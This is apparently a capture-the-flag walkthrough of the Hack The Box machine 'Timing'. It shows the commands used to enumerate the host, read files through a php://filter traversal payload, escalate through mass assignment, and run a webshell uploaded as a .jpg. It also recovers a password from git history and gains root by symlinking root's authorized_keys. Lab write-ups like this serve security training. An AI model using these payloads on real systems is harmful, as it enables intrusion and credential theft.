# [Timing](https://app.hackthebox.com/machines/Timing)

```bash
nmap -p- --min-rate 10000 10.10.11.135 -Pn
```




After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.135 -Pn 
```




Let's do `Directory Enumeration`.

```bash
gobuster dir -u http://10.10.11.135 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40 -x php
```





I found `db.conn.php` file also.


There's `image.php` file and I want to search specific `parameter` for files, that's why I use `wfuzz`.
```bash
wfuzz -u http://10.10.11.135/image.php?FUZZ=images/user-icon.png -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 0
```


That's `img` parameter for `image.php` file.


Let's inject `Directory Traversal` payload into `img` parameter.



After this, I submit payload via `php` and it works.
```bash
php://filter/convert.base64-encode/resource=/etc/passwd
```




If we substitute `base64` encoded via another fuzzy data, we can see in decoded way.




Let's look at `db_conn.php` file.



There are two main users called `syslog` and `aaron`.




While I submit `aaron:aaron` credentials to `login.php` , I successfully authenticated.




While I try to `Update Profile` functionality, I can see response data and there a lot of data even password of comrpomised user.




From response, I see `role` key which equal to 0, if I can change this into `1`, probably my user's privilege can be administrator.


Let's do `Mass Assignment` vulnerability, that I add `role` parameter into request.




While I browse `profile.php` file, I see that I am `Admin` user already.




While I look at `Admin` panel, I see that there can be option about uploading avatar.

Let's read source code `upload.php` file via `Directory Traversal` vulnerability.




From this logic, I see that I need to upload php `webshell` file into machine via `.jpg` extension, also change name of this file due to **Time** when I upload.


First, let's create php webshell via `.jpg` extension and upload into form.




From response, I take `Date` value 'Date: Fri, 23 Feb 2024 12:46:24 GMT' and use this to find correct location of my php webshell.

```php
$t="Fri, 23 Feb 2024 12:46:24 GMT";
echo strtotime($t);
echo md5('$file_hash' . strtotime($t)) . '_dr4ks.jpg';
```




I guess that webshell is located on this file '99aca32053f1e156df243acd41cb5158_dr4ks.jpg'.


Let's browse webshell to execute commands.
```bash
curl 'http://10.10.11.135/image.php?img=images/uploads/99aca32053f1e156df243acd41cb5158_dr4ks.jpg' -d 'cmd=id'
```




I tried to add `reverse shell` payload into here, but none of them worked.


Let's code `Bash` script and to see results.



I looked at `/opt` directory and find `source-files-backup.zip` file, let's download this.
```bash
bash webshell.sh "cat /opt/source-files-backup.zip" > source-files-backup.zip
```




After I `unzip` this zip file, I found `backup` directory and there is `.git` directory. Let's look at back commits via `git` command.




I looked at last commits via `git log` command.
```bash
git log --name-only --oneline 
```




Let's commit back into previous to search sensitive credentials by using `git checkout` command.
```bash
git checkout e4e2146 
```




Now, there's another password for `db_conn.php` file.




Password: S3cr3t_unGu3ss4bl3_p422w0Rd

Let's try to connect into machine via `aaron` user by using this password.

aaron: S3cr3t_unGu3ss4bl3_p422w0Rd

user.txt




While looking at `privileges` of this user via `sudo -l` command.




While I run `netutils` command via `sudo` privileges, I can enter `HTTP` url into here.

First, let's create http server.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```




And we enter value to here for downloading purposes.




Let's create `.lnk` file as below.
```bash
ln -s /root/.ssh/authorized_keys dr4ks.pub
```



And we download `dr4ks.pub` file.




As this process is done, let's connect into machine via private key `id_rsa` file.

root.txt

